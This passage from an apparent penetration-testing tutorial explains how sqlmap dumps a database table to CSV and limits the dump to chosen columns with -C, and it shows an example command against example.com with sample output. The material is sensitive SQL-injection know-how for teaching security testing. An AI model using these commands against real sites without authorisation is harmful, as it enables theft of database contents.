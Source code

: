
The console output shows that the table is dumped in formatted CSV format to a local file, `users.csv`.

{% hint style="info" %}
**Tip:** Apart from default CSV, we can specify the output format with the option `--dump-format` to HTML or SQLite, so that we can later further investigate the DB in an SQLite environment.
{% endhint %}

<figure><img src="../../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

***

## Table/Row Enumeration

When dealing with large tables with many columns and/or rows, we can specify the columns (e.g., only `name` and `surname` columns) with the `-C` option, as follows:

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname

...SNIP...
Database: testdb

Table: users
[4 entries]
+--------+------------+
| name   | surname    |
+--------+------------+
| luther | blisset    |
| fluffy | bunny      |
| wu     | ming       |
| NULL   | nameisnull |
+--------+------------+
```
